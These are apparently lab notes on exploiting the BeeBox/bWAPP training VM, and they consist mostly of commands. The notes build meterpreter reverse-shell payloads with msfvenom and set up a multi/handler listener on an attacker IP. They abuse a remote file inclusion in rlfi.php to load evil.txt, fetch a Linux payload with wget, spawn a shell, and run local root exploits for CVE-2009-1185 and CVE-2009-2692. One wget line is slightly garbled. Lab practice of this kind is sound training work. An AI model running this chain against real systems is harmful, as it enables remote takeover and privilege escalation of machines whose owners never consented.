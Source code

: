 ### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler   
set LPORT 4446    
set LHOST 192.168.112.4   
set PAYLOAD php/meterpreter_reverse_tcp   
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go  
**Change to:**  
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/cd un 
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp    
ps aux | grep udev      
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  


**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 
